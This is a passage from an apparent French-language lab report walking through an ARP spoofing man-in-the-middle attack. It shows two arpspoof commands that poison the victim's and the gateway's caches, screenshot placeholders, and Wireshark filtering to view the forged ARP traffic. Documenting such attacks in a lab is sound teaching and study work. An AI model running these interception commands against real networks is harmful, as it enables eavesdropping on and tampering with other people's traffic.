 **Capture d'écran des adresses IP et MAC avant attaque :**

![Adresses avant attaque](./screenshots/screen3.png)

### Lancement de l'attaque
Dans deux terminaux sur l'attaquant, nous exécutons :

```bash
sudo arpspoof -i eth0 -t <ip_victime> <ip_passerelle>
```
```bash
sudo arpspoof -i eth0 -t <ip_passerelle> <ip_victime>
```

**Capture d'écran des commandes arpspoof :**

![Exécution d'arpspoof](./screenshots/screen4.png)

![Exécution d'arpspoof](./screenshots/screen5.png)
---

## Partie 3B : Capture et Analyse de Trafic avec Wireshark

Nous analysons le trafic intercepté avec Wireshark.

```bash
wireshark
```

Nous filtrons sur le protocole `arp` pour voir les requêtes falsifiées.
